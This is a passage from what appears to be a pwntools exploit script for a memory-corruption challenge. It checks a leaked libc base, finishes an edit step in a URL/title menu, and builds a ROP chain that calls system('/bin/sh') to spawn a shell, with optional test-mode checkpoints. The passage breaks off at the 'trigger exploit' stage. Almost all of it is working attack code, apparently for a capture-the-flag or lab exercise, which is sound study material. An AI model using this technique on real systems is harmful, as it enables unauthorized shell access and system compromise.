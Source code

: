 ```python

if libc_base & 0xfff != 0:
    log.warning(f"Base not page-aligned: {hex(libc_base)}")
    log.warning("This may indicate wrong offset")

# Complete the edit
io.sendline(b'1')  # height value
io.sendlineafter(b'URL): ', b'http://test.com')
io.sendlineafter(b'title): ', b'test')

# ============================================
# CHECKPOINT: Verify Stage 1
# ============================================
# If running in test mode, verify leak is consistent
if args.TEST:
    log.info("TEST MODE: Verifying leak consistency")
    for i in range(3):
        # Repeat leak process
        # ... (same as above)
        test_base = test_leaked - LEAK_OFFSET
        assert test_base == libc_base, f"Inconsistent leak at iteration {i}"
    log.success("Leak verified consistent!")

# ============================================
# STAGE 2: BUILD ROP CHAIN
# ============================================
log.info("=" * 60)
log.info("STAGE 2: Building ROP chain")
log.info("=" * 60)

libc.address = libc_base

# Method 1: Automatic (pwntools)
rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])[0])  # Stack alignment
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

log.info("ROP chain:")
log.info(rop.dump())

# Verify addresses are reasonable
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh\x00'))
log.info(f"system(): {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")

# ============================================
# CHECKPOINT: Test Stage 2 Independently
# ============================================
if args.TEST_STAGE2:
    log.info("TEST MODE: Testing ROP chain with known base")
    # Create new process
    test_io = process(binary)
    # Use KNOWN libc_base from /proc
    # ... test ROP chain ...
    test_io.close()
    log.success("Stage 2 verified!")

# ============================================
# STAGE 3: TRIGGER EXPLOIT
# ============================================
log.info("=" * 60)
log.info("STAGE 3: Triggering exploit")
```